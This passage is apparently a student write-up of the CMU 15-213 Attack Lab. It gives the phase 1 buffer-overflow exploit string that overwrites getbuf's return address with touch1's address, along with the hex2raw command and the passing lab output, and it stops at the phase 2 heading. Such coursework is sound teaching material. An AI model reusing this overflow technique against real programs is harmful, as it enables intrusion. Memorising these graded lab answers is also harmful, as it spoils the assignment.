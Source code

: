 - We need to fill 0x28 (40) bytes of `getbuf` stack frame and then overwrite the return address to `touch1` first instruction address

- The phase 1 exploit string is

    ```
    00 00 00 00 00 00 00 00
    00 00 00 00 00 00 00 00
    00 00 00 00 00 00 00 00
    00 00 00 00 00 00 00 00
    00 00 00 00 00 00 00 00 /* 40 bytes to fill the stack frame of getbuf */
    c0 17 40 00 00 00 00 00 /* touch1 first instruction address */
    ```

- Generate [exploit raw string](./target1/phase_1_exploit_rax.txt)

    ```
    ./hex2raw < phase_1_exploit.txt > phase_1_exploit_rax.txt
    ```

- The result is

    ```
    LD_PRELOAD=./printf.so ./ctarget -q -i phase_1/phase_1_exploit_raw.txt 

    Cookie: 0x59b997fa
    Touch1!: You called touch1()
    Valid solution for level 1 with target ctarget
    PASS: Would have posted the following:
            user id bovik
            course  15213-f15
            lab     attacklab
            result  1:PASS:0xffffffff:ctarget:1:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 C0 17 40 00 00 00 00 00
    ```

### Phase 2
- The stack frame is as follows

    ![](./images/phase_2_stack_frame.png)
